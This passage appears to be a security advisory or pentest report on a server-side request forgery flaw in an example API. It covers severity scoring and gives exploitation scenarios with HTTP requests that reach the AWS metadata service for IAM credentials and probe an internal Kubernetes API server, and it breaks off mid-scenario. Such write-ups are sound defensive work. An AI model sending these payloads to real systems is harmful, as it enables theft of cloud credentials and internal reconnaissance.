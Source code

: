 - **Low Integrity Impact (I:L)**: While primarily an information disclosure vulnerability, there is some potential for integrity impacts through manipulation of internal requests.

- **No Availability Impact (A:N)**: The vulnerability doesn't directly affect the availability of the service or target systems.

The severity is slightly reduced from Critical to High due to the authentication requirement, which limits the pool of potential attackers to those who already have legitimate access to the system.

# Exploitation Scenarios
**Scenario 1: Cloud Metadata Service Access**
An authenticated attacker submits a request to the vulnerable endpoint with `url_host=169.254.169.254` to access the AWS EC2 instance metadata service:

```
GET /fetch?url_host=169.254.169.254 HTTP/1.1
Host: api.acme-corp.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

```

The application constructs the URL `http://169.254.169.254/api/status`, but due to how AWS metadata service works, the attacker can then chain requests to access sensitive data:

```
GET /fetch?url_host=169.254.169.254/latest/meta-data/iam/security-credentials/ HTTP/1.1
Host: api.acme-corp.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

```

This could reveal IAM role names, followed by obtaining the actual credentials by requesting the specific role:

```
GET /fetch?url_host=169.254.169.254/latest/meta-data/iam/security-credentials/s3-access-role HTTP/1.1
Host: api.acme-corp.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

```

**Scenario 2: Kubernetes API Server Access**
An authenticated user with malicious intent could target the internal Kubernetes API server to extract sensitive information about the cluster:

```
GET /fetch?url_host=kubernetes.default.svc HTTP/1.1
Host: api.acme-corp.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

```

The application would make a request to `http://kubernetes.default.svc/api/status`. The attacker could then explore other endpoints to enumerate pods, services, and potentially access secrets:
